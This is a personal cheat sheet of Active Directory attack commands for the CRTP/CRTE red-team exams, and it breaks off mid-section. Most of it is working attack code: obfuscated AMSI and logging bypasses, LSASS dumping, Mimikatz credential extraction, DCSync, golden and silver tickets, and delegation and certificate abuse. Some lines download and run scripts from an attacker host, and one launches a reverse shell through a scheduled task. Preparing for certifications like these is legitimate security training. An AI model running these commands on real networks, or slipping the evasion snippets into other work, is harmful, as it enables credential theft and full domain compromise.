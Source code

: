 ```yaml
---
title: "5 - Cheat Sheet"
classes: wide
header:  
  teaser: /assets/images/posts/crte/crte-teaser6.jpg
  overlay_image: /assets/images/main/header4.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Cheat Sheet for CRTP/CRTE exams"
description: "Cheat Sheet for CRTP/CRTE exams"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows 
  - cheatsheet
toc: false
---
```


# Cheat Sheet

As we know, these exams are time-based. So, I created this cheat sheet to make sure the syntax of the commands are correct and consequently I dont lose any time with BS.

> The important part is to understand the content; the cheat sheet is just an **auxiliary tool** in the process.

- There is no hashes or informations of the exams here!

> [PS] I'm trying to add a copy button in the code blocks.

<style>
  /* Style for the chapter container */
  .chapters {
    margin: 10px;
    padding: 10px;
    border: 1px solid #333;
    border-radius: 15px; 
    font-family: 'Arial', sans-serif;
    background-color: #1a1a1a;
    color: #ddd;
    width: calc(100% - 40px);
  }

  /* Style for the details summary */
  details summary {
    cursor: pointer;
    font-weight: bold;
    background-color: #333;
    padding: 12px;
    border: 1px solid #222;
    border-radius: 8px; 
    margin-bottom: 10px;
  }

  /* Style for the details content */
  details .content {
    margin: 20px 0;
    padding: 20px;
    border: 1px solid #222;
    border-radius: 8px; 
    background-color: #090a08;
  }
</style>


<div class="chapters">
  <details>
    <summary>Bypass</summary>    
    <div class="content" markdown="1">
 

**AMSI bypass**:
```powershell
Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
(Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})
```

**Script Block logging bypass**:
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'twProvid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

**.NET AMSI bypass**:
```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

  </div>
  </details>

  <details>
    <summary>Enumeration</summary>    
    <div class="content" markdown="1">
 


**AD Module**:
Import:
```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```powershell
Get-ADUser -Filter * | Select -ExpandProperty samaccountname
Get-ADComputer –Filter * | select –expand name
Get-ADGroup -Identity 'Domain Admins' -Properties *
Get-ADGroup -Identity machineadmins -Properties Description
Get-ADGroupMember -Identity 'Domain Admins'
Get-ADGroupMember -Identity 'Enterprise Admins'
Get-ADGroupMember -Identity 'Enterprise Admins' -Server domain.local
Get-ADOrganizationalUnit -Identity 'OU=StudentsMachines,DC=us,DC=domain,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | select name
Get-ACL 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=domain,DC=local' | select -ExpandProperty Access
(Get-ADForest).Domains
Get-ADTrust -Filter *
Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name
(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}
Get-ADTrust -Filter * -Server domain.local
```

**Powerview**:
Import
```powershell
. C:\AD\Tools\PowerView.ps1
```

```powershell
(Get-DomainPolicy).KerberosPolicy
Get-DomainGPOLocalGroup
Get-DomainGroupMember -Identity <group>
Get-DomainOU
(Get-DomainOU -Identity <OU>).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name
Get-DomainGPO
(Get-DomainOU -Identity <OU>).gplink
Get-DomainGPO -Identity '{<result of .gplink>}'
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<user>"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<group>"}
Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}
Get-ForestTrust -Forest <forest>
```

  </div>
  </details>

  <details>
    <summary>Local Privesc</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
Invoke-ServiceAbuse -Name ALG -UserName domain\studentuserx -Verbose
```

**Same attack with accesschk64 from SysInternals**:
```powershell
.\accesschk64.exe -uwcqv 'user' *

sc.exe config ALG binPath= "net localgroup administrators domain\user
/add"
sc.exe stop ALG
sc.exe start ALG
sc.exe config ALG binPath= "C:\WINDOWS\System32\alg.exe"
sc.exe stop ALG
sc.exe start ALG
```

**Look for local administrative access w/ Powerview**:
```powershell
Find-LocalAdminAccess -Verbose
Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1
```

**Recursively look for group membership**:
```powershell
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) {
  $groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname) 
  $groups
  if ($groups.count -gt 0) {
    foreach ($group in $groups) {
      Get-ADPrincipalGroupMembershipRecursive $group
    }
  }
}
```

> ACL entries

**Check if any of the groups has interesting ACL entries**:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'managers'}
Get-DomainObjectAcl -Identity machineadmins -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match 'managers'}
```

  </div>
  </details>

  <details>
    <summary>LAPS</summary>
    <div class="content" markdown="1">

```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
C:\AD\Tools\Get-LapsPermissions.ps1
```

With Powerview:
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_}
```

**Read the password**:
```powershell
Get-ADComputer -Identity <computer> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName <computer>
Get-DomainObject -Identity <computer> | select -ExpandProperty ms-mcs-admpwd
```

**Access the machine with the password**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<passwd> cmd
$passwd = ConvertTo-SecureString 't7HoBF+m]ctv.]' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<computer>\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName <computer> -Credential $creds
$mailmgmt
```

  </div>
  </details>

  <details>
    <summary>Extract Credentials</summary>
    <div class="content" markdown="1">
 


winrs:
```powershell
winrs net use x: \\<computer>\C$\Users\Public /user:<computer>\Administrator t7HoBF+m]ctv.]
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
net use x: /d
```

**Bypass behaviour detection**:
```powershell
winrs -r:<computer> -u:.\administrator -p:t7HoBF+m]ctv.] cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.X
```

**Extract**:
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
sekurlsa::keys
```

**Microsoft signed binary to download NetLoader**:
```powershell
winrs -r:<computer> -u:.\administrator -p:t7HoBF+m]ctv.]
"bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Users\\Public\\Loader.exe"
```

**PowerShell Remoting and Invoke-Mimi**:
```powershell
$passwd = ConvertTo-SecureString 't7HoBF+m]ctv.]' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<computer>\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName <computer> -Credential $creds
Enter-PSSession $mailmgmt
```

**Bypass AMSI before proceeding**!
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt
Enter-PSSession $mailmgmt
Invoke-Mimi -Command '"sekurlsa::keys"'
```

  </div>
  </details>

  <details>
    <summary>gMSA</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Get-ADServiceAccount -Filter *
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

> You have to open a shell with the user that has permission to read gMSA, after that

```powershell
Import AD Module again, then:
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
To decode the password we can use DSinternals:
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash –Password $decodedpwd.SecureCurrentPassword
```

> After that, you can PTH to see if the user has access to another machine!

  </div>
  </details>

  <details>
    <summary>PTH</summary>
    <div class="content" markdown="1">

**From an elevated shell**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:<user> /domain:<domain> /aes256:<password> /run:cmd.exe" "exit"
```

**using NTLM**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:<user> /domain:<domain>  /ntlm:<password> /run:cmd.exe" "exit"

C:\AD\Tools\Rubeus.exe s4u /user:<user> /aes256:<password> /impersonateuser:administrator /msdsspn:CIFS/<machine.domain> /altservice:HTTP /domain:<domain> /ptt
```

**Doesn't need elevation**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /domain:<domain> /user:<user> /aes256:<password> opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

  </div>
  </details>

  <details>
    <summary>Application Whitelisting</summary>
    <div class="content" markdown="1">

> CLM, AppLocker, WDAC

**Verify if PowerShell is running in Constrained Language Mode**:
```powershell
$ExecutionContext.SessionState.LanguageMode
```

**Check for AppLocker** (if there is an error, the AppLocker is not in use):
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
Get-AppLockerPolicy –Effective
```

**Verify WDAC**:
```powershell
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
CodeIntegrityPolicyEnforcementStatus : 2
UsermodeCodeIntegrityPolicyEnforcementStatus : 2
```

Check out [Lolbas Project on Github](https://lolbas-project.github.io/)

> Lets DUMP lsass*

**Get the PID of lsass.exe process**:
```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
```

**Copy the `lsass` to your machine**:
```powershell
echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp
```

**Run Mimikatz with Admin Priv, then**:
```powershell
sekurlsa::minidump C:\AD\Tools\lsass.DMP
privilege::debug
sekurlsa::keys
```

**Check for Certificates**:
```powershell
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-jump\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-jump\C$\Users\Public\InShellProf.dll /Y
```

```powershell
winrs -r:us-jump cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
ls cert:\LocalMachine\My
ls cert:\LocalMachine\My\BAD78F43BB4CB13C4843E49B51AA051530FFBBDB | Export-PfxCertificate -FilePath C:\Users\Public\user.pfx -Password (ConvertTo-SecureString -String 'SecretPass@123' -Force -AsPlainText)
```

**Copy the certificate**:
```
echo F | xcopy \\us-jump\C$\Users\Public\user.pfx C:\AD\Tools\user.pfx
```

  
  </div>
  </details>
  
  <details>
    <summary>Unconstrained delegation</summary>
    <div class="content" markdown="1">
 


```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

**Access the machine with unconstrained deleg, then**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
cd C:\AD\Tools\
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

**Copy Rubeus using xcopy and execute using winrs**:
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\us-web\C$\Users\Public\Rubeus.exe /Y
winrs -r:us-web cmd.exe
C:\Users\Public\Rubeus.exe monitor /targetuser:DC$ /interval:5 /nowrap
```

**Copy and execute Rubeus using PowerShell Remoting**:
```powershell
$usweb1 = New-PSSession us-web
Copy-Item -ToSession $usweb1 -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\Public
Enter-PSSession $usweb1
cd C:\Users\Public .\Rubeus.exe monitor /targetuser:DC$ /interval:5 /nowrap
```

**Abuse the printer bug**:
```powershell
C:\AD\Tools\MS-RPRN.exe \\dc.domain.local \\us-web.domain.local
```

**Copy the Base64EncodedTicket, then**:
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:TGTofDC$
```

**Run DCSync attack**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
```

**To get EA access**

it's the same:

1. Monitor the DC of the root of the forest
2. Execute MS-RPRN with the DC target
3. Copy the Base64 and PTT
4. DCSync EA (Administrator of the root forest)

```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController domain-dc.domain.local
```

**In a different forest**

> If TGT Delegation is enabled across forests trusts, we can abuse the printer bug across two-way forest trusts as well.

1. ASKTGT
2. Send Rubeus to the target machine
3. Access the machine with WINRS
4. Execute Rubeus monitor (with the Target Forest)
5. Execute MS-RPRN (with the Target Forest)
6. Copy base64 & PTT with Rubeus

**Now we can run DCSync to the Targeted Forest**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User usvendor\krbtgt --Domain usvendor.local --DomainController usvendor-dc.usvendor.local
```

  </div>
  </details>

  <details>
    <summary>Constrained delegation</summary>
    <div class="content" markdown="1">
 


```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

**Collect the service from msDS-AllowedToDelegateTo and access with Rubeus S4U**:
```powershell
klist
winrs -r:us-mssql.domain.local cmd.exe
```

**To execute on another Forest just add the flag -Server**:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server domain.local
```

**We need access to the machine that has Constrained Deleg enabled**:
```powershell
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:<user> /domain:domain.local
C:\AD\Tools\Rubeus.exe s4u /user:<user> /rc4:<hash> /impersonateuser:Administrator /domain:domain.local /msdsspn:nmagent/dc.domain.local /altservice:ldap /dc:dc.domain.local /ptt
```

**With the LDAP service ticket, We can DCSync**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController dc.domain.local
```


  </div>
  </details>

  <details>
    <summary>ACLs Write Permissions</summary>
    <div class="content" markdown="1">

**If you have Write permission**:
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\us-mgmt\C$\Users\Public\Loader.exe /Y
winrs -r:us-mgmt cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
sekurlsa::keys
```

**If you get any user, run the full enumeration on that user**:
```powershell
C:\AD\Tools\PowerView.ps1
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'mgmtadmin'}
```

**With GenericWrite we can set Resource-based Constrained Delegation (RBCD)**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
$comps = 'user1$','user2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps -Verbose
```

**Extract AES of your machine**:
```powershell
C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::keys" "exit"
```

**Go for the one with SID S-1-5-18 that is a well-known SID for the SYSTEM user**:
```powershell
C:\AD\Tools\Rubeus.exe s4u /user:machine$ /aes256:$password /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
klist
winrs -r:us-helpdesk cmd
```

**To copy our loader to the machine, we need to access the filesystem. So, request a TGS for CIFS using Rubeus**:
```powershell
C:\AD\Tools\Rubeus.exe s4u /user:machine$ /aes256:$password /msdsspn:cifs/us-helpdesk /impersonateuser:administrator /ptt
echo F | xcopy C:\AD\Tools\Loader.exe \\us-helpdesk\C$\Users\Public\Loader.exe /Y
winrs -r:us-helpdesk cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

> If any new users are found, *PTH and Find-PSRemotingLocalAdminAccess -Verbose*



  </div>
  </details>

  <details>
    <summary>Tickets</summary>
    <div class="content" markdown="1">
 


**GOLDEN**

**Without using Invoke-Mimi.ps1**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
klist
echo F | xcopy C:\AD\Tools\Loader.exe \\dc\C$\Users\Public\Loader.exe /Y
winrs -r:dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

**Using Invoke-Mimi.ps1 and PowerShell Remoting**:
```powershell
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
$sess = New-PSSession <machine name>
Enter-PSSession -Session $sess

# bypass AMSI 

exit
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

**SILVER**

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target> /service:HOST /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
klist
```

**Start a listening in another prompt**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\powercat.ps1
powercat -l -v -p 443 -t 1000
schtasks /create /S <target machine> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Userx" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.x/Invoke-PowerShellTcpEx.ps1''')'"
schtasks /Run /S <target machine> /TN "Userx"
```

We should get a shell on the listener prompt. 

> For *WMI*, we need 2 tickets – *HOST and RPCSS*

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target dc> /service:HOST /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target dc> /service:RPCSS /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
Get-WmiObject -Class win32_operatingsystem -ComputerName <computer name>
```

  </div>
  </details>

  <details>
    <summary>DCSync</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
```

**Check if the user has Replication Rights**:
```powershell
Get-DomainObjectAcl -SearchBase "dc=us,dc=domain,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuserx"}
```

**With DA privileges We can add those rights**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:administrator /domain:domain.local /aes256:<hash> /run:cmd.exe" "exit"
```

**Using Powerview**:
```powershell
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=domain,dc=local" -PrincipalIdentity studentuserx -Rights DCSync -PrincipalDomain domain.local -TargetDomain domain.local -Verbose
```

**Using AD Module with Set-ADACL from RACE**:
```powershell
Set-ADACL -DistinguishedName 'DC=us,DC=domain,DC=local' -SamAccountName studentuserx -GUIDRight DCSync -Verbose
```

> From a normal shell, check the rights again

**Now we can execute DCSync attacks**:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
Invoke-Mimi -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

  </div>
  </details>

  <details>
    <summary>AD CS</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\Certify.exe cas
C:\AD\Tools\Certify.exe find
```

**ENROLLEE_SUPPLIES_SUBJECT attribute means we can request a certificate for ANY user**:
```powershell
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
C:\AD\Tools\Rubeus.exe asktgt /user:<user> /certificate:C:\AD\Tools\user.pfx /password:SecretPass@123 /nowrap /ptt
C:\AD\Tools\Certify.exe request /ca:domain-DC.domain.local\DOMAIN-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

> *Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to cert.pem*


C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx

**Finally, request a TGT for the DA**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap /ptt
winrs -r:dc whoami
```

**For EA**

**Request and convert to PFX, then request the TGT**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:domain.local\Administrator /dc:domain-dc.domain.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
winrs -r:domain-dc whoami
```

   </div>
  </details>

  <details>
    <summary>Azure AD Connect</summary>
    <div class="content" markdown="1">

```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server domain.local -Properties * | select SamAccountName,Description | fl
C:\AD\Tools\Rubeus.exe asktgt /domain:domain.local /user:<user> /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-adconnect\C$\Users\<user>\Downloads\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-adconnect\C$\Users\<user>\Downloads\RunWithRegistryNonAdmin.bat /Y
winrs -r:us-adconnect cmd
cd C:\Users\<user>\Downloads
RunWithRegistryNonAdmin.bat
```

**Extract credentials of MSOL_**:
```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.x/adconnect.ps1')
ADconnect
```

**Now we can run DCsync (From elevated shell)**:
```powershell
runas /user:domain.local\MSOL_16fb75d0227d /netonly cmd
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\administrator /domain:domain.local" "exit"
```

**DCsync (from a normal shell)**:
```powershell
runas /user:domain.local\MSOL_16fb75d0227d /netonly cmd
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:domain\administrator /domain:domain.local"'
```


   </div>
  </details>

  <details>
    <summary>Domain Privesc (TrustKey & KRBTGT)</summary>
    <div class="content" markdown="1">
 


**Using TRUSTKEY**

**With DA - Escalate to EA or DA of the parent domain**:

```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:administrator /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\Loader.exe \\dc\C$\Users\Public\Loader.exe /Y
winrs -r:dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
lsadump::trust /patch
```

> Grab the RC4 of [ In ] child domain -> parent domain**
   
**Create the inter-realm TGT using the trust key**:   
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /domain:domain.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:<hash> /user:Administrator /service:krbtgt /target:domain.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```

``` powershell
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/domain-dc.domain.local /dc:domain-dc.domain.local /ptt
```

``` powershell
klist
```

``` powershell
dir \\domain-dc.domain.local\c$
```
 

**Using KRBTGT Hash**

**Create inter-realm TGT with SID history for Enterprise Admins**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:<hash> /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt" "exit"
klist
winrs -r:domain-dc cmd
```


   </div>
  </details>

  <details>
    <summary>Abuse Trust Relationship (Forest)</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /ptt"
lsadump::dcsync /user:domain\user$ /domain:domain.local
```

**Copy SafetyKatz and Rubeus**:
```powershell
echo F | xcopy C:\AD\Tools\BetterSafetyKatz.exe \\dc.domain.local\C$\Users\Public\BetterSafetyKatz.exe /Y
echo F | xcopy C:\AD\Tools\Rubeus.exe \\dc.domain.local\C$\Users\Public\Rubeus.exe /Y
```

**Forge an inter-realm TGT**:
